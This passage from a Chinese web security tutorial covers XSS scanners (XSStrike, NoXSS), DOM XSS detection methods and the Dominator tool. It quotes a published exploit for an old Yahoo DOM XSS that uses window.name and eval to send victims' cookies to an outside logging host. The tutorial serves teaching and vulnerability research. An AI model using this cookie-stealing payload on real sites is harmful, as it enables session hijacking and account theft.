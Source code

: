 以 AWVS 的在线靶场为例，它可以检测搜索框存在的 XSS 漏洞：

![Drawing 7.png](https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO9mAdRs_AABsm8OWsbs654.png)  
图 8：XSStrike

XSStrike 功能比较全面，但也会存在误报，而且告警结果展示的体验不是很好。

因此，这里再推荐另一款工具，叫 [NoXSS](https://github.com/lwzSoviet/NoXss)。它的特点就是批量扫描速度快，而且告警展示效果比 XSStrike 好，但漏洞检测能力不如 XSStrike，你可以把这两款搭配着使用。NoXSS 的使用方法也很简单，常用命令如下：

```java
python start.py --url="http://localhost/vulnerabilities/XSS_r/?name=a"
```

![Drawing 8.png](https://s0.lgstatic.com/i/image/M00/8B/C1/Ciqc1F_gO-SAWQl0AAbouv6er5w361.png)  
图 9：NoXSS

DOM XSS 的扫描相比常规 XSS 要难一些，主要是针对 JS 代码的分析，如果只是简单的正则匹配，就很容易误报漏报。所以针对 DOM XSS 的检测，除了常规的 XSS payload 暴力测试、正则匹配检测代码外，还可以基于以下几种常见方法来检测 XSS。

* Headless Chrome：利用无界面 Chrome 浏览器来检测 XSS，参考《[基于 Chrome-headless 的 XSS 检测](https://paper.seebug.org/641/)》，这是目前主流的动态检测方法。

* QtWebKit：参考《[基于 QtWebKit 的 DOM XSS 检测技术](https://security.tencent.com/index.php/blog/msg/12)》，QtWebKit 作者已停止维护。

* PhantomJS：已停止维护。它提供一套基于 WebKit 的服务器端 JavaScript API，可以在无浏览器支持的情况下实现 Web 浏览器功能的支持，例如 DOM 处理、JavaScript、CSS 选择器、JSON、Canvas 和可缩放矢量图形 SVG 等功能。

这些方法可以实现动态解析 JS，以验证特意构造的 XSS payload 是否被执行，从而准确地判断是否存在 XSS 漏洞。

这种动态检测 DOM XSS 的工具，个人特别推荐 Dominator。它是基于 Firefox 改造的，在一些关键的输入输出函数添加 Hook，如果发现有用户可控数据输出到一些 sink 漏洞触发函数上就会告警。它的特点是发现率高，虽然也有不少误报。此前我用它发现了不少国内知名网站的 DOM XSS，有些不同域名的网站引用到同一个漏洞 JS 文件，导致一个漏洞影响一大批网站。

以之前一些 Yahoo DOM XSS 为例，当你用 Dominator 访问了存在漏洞的页面后，可以看到其输出的告警内容如下：

![Drawing 9.png](https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO_CARQ8zAARc2hmr8mY249.png)  
图 10：用 Dominator 检测 DOM XSS

提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：

```javascript
<html>
<script>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
</script>
</html>
```

利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。

#### 白盒测试

如果我们有网站源码，就可以直接通过分析源码来挖掘漏洞。网站开发语言非常多， JavaScript、PHP、Python、Go、C/C++等等都可以用来开发网站的前端和后端。不同的语言有不同的特性，在源码审计时需要采取不同的检测点，但有一个共同的思路，那就是**污点分析的检测思路**。
